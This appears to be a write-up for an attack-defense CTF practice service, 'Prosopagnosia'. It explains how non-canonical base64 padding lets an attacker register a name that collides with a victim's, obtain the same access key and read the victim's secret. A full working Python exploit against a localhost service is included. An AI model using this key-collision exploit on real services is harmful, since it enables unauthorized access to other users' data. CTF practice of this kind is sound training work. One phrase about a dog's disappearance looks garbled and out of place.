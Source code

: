 # Prosopagnosia

A little srvice to practize in rewriting of AD-services :)

Backend has 3 routes: create rom, get rom, list roms, first of two accept arguments (rom name especially) as base64 encoded string.
Every rom has an access key generated as:
```cpp
std::string demo_service::get_key(const std::string &name) {
    auto name_decoded = base64_decode(name);

    SHA256 sha;
    sha.update(name_decoded.value);
    sha.update(keys_secret);

    auto digest = sha.digest();
    std::string sha256 = SHA256::toString(digest.get());

    return base64_encode(sha256);
}
```

Which means, that the access key is `base64(sha256(b64decode(name) + secret))`. Solution to the dog's disappearance is base64, which can have more than one encoded strings, that leads to one source string. For example:
```
b64decode('ZGVtby0zYzkxMGMyYi04YzM5LTQxODMtOTExMS03MGYyNDQ0MDk2MWP=') == demo-3c910c2b-8c39-4183-9111-70f24440961c
b64decode('ZGVtby0zYzkxMGMyYi04YzM5LTQxODMtOTExMS03MGYyNDQ0MDk2MWM=') == demo-3c910c2b-8c39-4183-9111-70f24440961c
```

That happens when encoding string has length that not divides by 3, 2 bits of encoded string becomes isinsignificant and can be replaced by any value, which leads to different encoded strings, but same source string.

Prosopagnosia service compares for base64 string of name for collision checking, but when its computing the access key it uses decoded string. So, hacking algorithm is:
```
1) get list of demos names
2) find some base64 that represents that names but not equals to first used base64
3) take key that is equal to the key of the victim
4) GET /api/demo
```

The sploit for getting base64 collisions can be:
```python
import requests
import base64
import string

NAME_HEADER = 'X-Svm-Name'
SECRET_HEADER = 'X-Svm-Secret'
AUTHOR_HEADER = 'X-Svm-Author'
KEY_HEADER = 'X-Svm-Key'

base64_alpha = string.ascii_letters + string.digits

victim_name = 'ZGVtby0zYzkxMGMyYi04YzM5LTQxODMtOTExMS03MGYyNDQ0MDk2MWP='
victim_name_decoded = base64.b64decode(victim_name).decode()

some_content = b'hello-there'

same_base64 = []

for a in base64_alpha:
    p = victim_name[:-2] + a + victim_name[-1]
    if p == victim_name:
        continue
    if base64.b64decode(p).decode() == victim_name_decoded:
        same_base64.append(p)
        print(p)

if len(same_base64) == 0:
    print('no collision')
    exit()

p = same_base64[0]

print(f'will use {p}')

with requests.post('http://localhost:15345/api/demo', 
                   headers={NAME_HEADER: p, SECRET_HEADER: 'TWu=', AUTHOR_HEADER: 'TWu='},
                   files={p: some_content}) as r:
    if r.status_code != 200: raise ValueError(f'{r.status_code} on post')

    key = r.headers.get(KEY_HEADER)

    print(f'The key for {victim_name} is {key}')

with requests.get('http://localhost:15345/api/demo',
                  headers={NAME_HEADER: victim_name, KEY_HEADER: key}) as r:
    if r.status_code != 200: raise ValueError(f'{r.status_code} on get')

    print(r.json()['secret'])
```

